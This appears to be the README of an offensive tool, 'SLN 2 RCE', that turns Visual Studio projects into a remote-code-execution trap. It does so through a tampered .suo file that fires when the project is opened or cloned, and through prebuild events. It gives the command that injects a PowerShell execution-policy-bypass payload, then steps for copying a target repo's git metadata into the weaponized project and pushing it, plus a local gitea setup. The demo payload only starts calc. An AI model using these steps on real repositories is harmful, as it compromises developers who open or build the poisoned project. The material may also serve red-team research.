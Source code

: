 #########
SLN 2 RCE
#########

| Weaponizing Visual Studio projects to trigger RCE using SUO file (Solution User Options) or prebuild event
|
| All credit goes to cjm00nw, edwardzpeng & moom825
|  https://github.com/cjm00n/EvilSln
|  https://github.com/moom825/visualstudio-suo-exploit

|
| SUO RCE happen when cloning project into VS or when opening the sln project file for the first time (VS overwrite the suo file).
| (Note that suo file isn't interpreted by msbuild.exe)
| The suo file has been modified using suo_exploit_test.exe to overwrite the initial suo file generated by VS.

.. code-block:: powershell

    suo_exploit_test.exe .suo test.suo powershell -ep bypass -file action.ps1

|

| The prebuild event will happen when starting build, so VS/msbuild.exe needs to support targeted language.
| This project offer c# (.NET6.0) and c++ models.
| All methods will call action.ps1 powershell script (and will start calc)

|

*****
Usage
*****

.. code-block:: bash

    # Move to a new temp dir
    cd $(mktemp -d)

    # Clone SLN2RCE and your payload project
    git clone https://github.com/charlesgargasson/SLN2RCE.git
    git clone http://localhost:3000/user2/repo.git

    # Get git info from your project
    rm -rf SLN2RCE/.git
    cp -r repo/.git SLN2RCE/

    # Set command
    echo 'calc' \
    > SLN2RCE/action.ps1

    # Push modifications
    cd SLN2RCE
    git add .*
    git commit -m ok
    git push

|

| If you need a git instance

.. code-block:: bash

    cat <<'EOF'>/tmp/gitea.yml
    version: "3"
    
    networks:
      gitea:
        external: false
    
    services:
      server:
        image: gitea/gitea:1.22.3
        container_name: gitea
        environment:
          - USER_UID=1000
          - USER_GID=1000
        restart: always
        networks:
          - gitea
        volumes:
          - /tmp/gitea:/data
          - /etc/timezone:/etc/timezone:ro
          - /etc/localtime:/etc/localtime:ro
        ports:
          - "3000:3000"
          - "222:22"
    EOF
    
    docker-compose -f /tmp/gitea.yml up

|
